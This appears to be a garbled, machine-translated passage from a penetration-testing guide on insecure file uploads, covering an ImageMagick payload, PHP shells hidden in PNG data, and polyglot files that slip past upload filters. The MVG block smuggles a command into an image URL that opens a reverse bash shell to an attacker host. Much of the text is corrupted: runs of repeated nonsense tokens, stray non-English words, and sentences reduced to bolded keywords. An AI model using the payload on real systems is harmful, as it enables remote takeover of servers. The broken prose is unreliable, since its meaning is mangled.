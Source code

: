 **'e'** **'ej** **'e'** **'ej** **'e'** **'ej** **'e'** **'ej** **'e'** **'ej** **'e'** **'ej** **'e'** **'ej** **'e'** **'ej** **'e'** **'ej** **'e'** **'ej** **'e'** **'ej** **'e'** **'ej** **'e'** **'ej** **'e'** **'ej** **'e'** **'ej** **'e'** **'ej** **'e'** **'ej** **'e'** **'ej** **'e'** **'ej** **'e'** **'ej** **'e'** **'ej** **'e'** **'ej** **'e'** **'ej** **'e'** **'ej
```
push graphic-context
viewbox 0 0 640 480
fill 'url(https://127.0.0.1/test.jpg"|bash -i >& /dev/tcp/attacker-ip/attacker-port 0>&1|touch "hello)'
pop graphic-context
```
## Embedding PHP Shell on PNG

**PNG IDAT chunks** vItlh png file **PHP shell** **embed** vItlh **bypass** certain image processing operations. **PHP-GD** **imagecopyresized** **imagecopyresampled** **functions** **relevant** **context** **commonly** **resize** **resample** images. **Embedded PHP shell** **remain unaffected** **operations** **advantage** **use cases**.

**Detailed exploration** **technique**, **methodology** **potential applications**, **article**: ["Encoding Web Shells in PNG IDAT chunks"](https://www.idontplaydarts.com/2012/06/encoding-web-shells-in-png-idat-chunks/). **Resource** **comprehensive understanding** **process** **implications**.

**More information**: [https://www.idontplaydarts.com/2012/06/encoding-web-shells-in-png-idat-chunks/](https://www.idontplaydarts.com/2012/06/encoding-web-shells-in-png-idat-chunks/)

## Polyglot Files

**Polyglot files** **unique tool** **cybersecurity**, **chameleons** **validly exist** **multiple file formats** **simultaneously**. **Intriguing example** **GIFAR** **GIF** **RAR archive** **hybrid**. **Files** **limited** **pairing**; **combinations** **GIF** **JS** **PPT** **JS** **feasible**.

**Core utility** **polyglot files** **capacity** **circumvent security measures** **screen files** **type**. **Common practice** **various applications** **permit** **file types** **upload**—**JPEG**, **GIF**, **DOC**—**mitigate** **risk** **potentially harmful formats** **JS**, **PHP**, **Phar files**. **Polyglot**, **conforming** **structural criteria** **multiple file types**, **stealthily bypass** **restrictions**.

**Despite** **adaptability**, **polyglots** **encounter limitations**. **Instance**, **polyglot** **simultaneously embody** **PHAR file** (**PHp ARchive**) **JPEG**, **success** **upload** **hinge** **platform's file extension policies**. **System** **stringent** **allowable extensions**, **mere structural duality** **polyglot** **suffice** **guarantee** **upload**.

**More information**: [https://medium.com/swlh/polyglot-files-a-hackers-best-friend-850bf812dd8a](https://medium.com/swlh/polyglot-files-a-hackers-best-friend-850bf812dd8a)

## References

* [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20insecure%20files](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20insecure%20files)
* [https://github.com/modzero/mod0BurpUploadScanner](https://github.com/modzero/mod0BurpUploadScanner)
* [https://github.com/almandin/fuxploider](https://github.com/almandin/fuxploider)
* [https://blog.doyensec.com/2023/02/28/new-vector-for-dirty-arbitrary-file-write-2-rce.html](https://blog.doyensec.com/2023/02/28/new-vector-for-dirty-arbitrary-file-write-2-rce.html)
* [https://www.idontplaydarts.com/2012/06/encoding-web-shells-in-png-idat-chunks/](https://www.idontplaydarts.com/2012/06/encoding-web-shells-in-png-idat-chunks/)
* [https://medium.com/swlh/polyglot-files-a-hackers-best-friend-850bf812dd8a](https://medium.com/swlh/polyglot-files-a-hackers-best-friend-850bf812dd8a)
